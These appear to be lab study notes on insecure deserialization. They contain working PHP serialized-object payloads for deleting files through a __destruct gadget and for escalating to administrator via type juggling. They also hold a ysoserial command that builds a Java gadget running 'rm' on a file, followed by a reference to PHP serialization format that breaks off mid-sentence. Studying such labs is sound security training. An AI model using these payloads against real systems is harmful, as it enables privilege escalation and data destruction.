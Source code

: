 Consider that we were able to retrieve the source of a php file by appending `~` in our request and extracted the below:
```
    function __destruct() {
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
```
We could delete files by creating an object and sending in a valid parameter:
```
O:14:"Delete":1:{s:14:"lock_file_path";s:23:"/home/shrek/payslip.txt";}
```

A basic privilege escalation:
`O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"mo9iwmmkmyv7opm4fmdjy4e8brusnvey";}`
Change to:
`O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}`

With ysoserial remember to url encode your generated payload
`java -jar path/to/ysoserial.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64`

Objects are serialized as:  
`O:<i>:"<s>":<i>:{<properties>}`  
where the first `<i>` is an integer representing the string length of `<s>`, and `<s>` is the fully qualified class name (class name prepended with full namespace). The second `<i>` is an integer representing the number of object properties. `<properties>` are zero or more serialized name value pairs:  

Booleans are serialized as:  
`b:<i>;`  
where `<i>` is an integer with a value of either 0 (false) or 1 (true).  

Integers are serialized as:  
`i:<i>;`  
where `<i>` is the integer value.  

Floats are serialized as (with d meaning double):  
`d:<f>;`  
where `<f>` is the float value.  

Strings are serialized as:  
`s:<i>:"<s>";`  
where `<i>` is an integer representing the string length of `<s>`, and `<s>` is the string value.  

Special types:  
null is simply serialized as:  
`N;`  

Arrays are serialized as:  
`a:<i>:{<elements>}`  
where `<i>` is an integer representing the number of elements in the array, and `<elements>` zero or more serialized key value pairs:  
`<key><value>`  
where `<key>` represents a serialized scalar type, and `<value>` any value that is serializable.  
  
`<name><value>`  
where `<name>` is a serialized string representing the property name, and `<value>` any value that is serializable.  
There's a catch with `<name>` though:  
`<name>` is represented as  
`s:<i>:"<s>";`  
where `<i>` is an integer representing the string length of `<s>`. But the values of `<s>` differs per visibility of properties:  

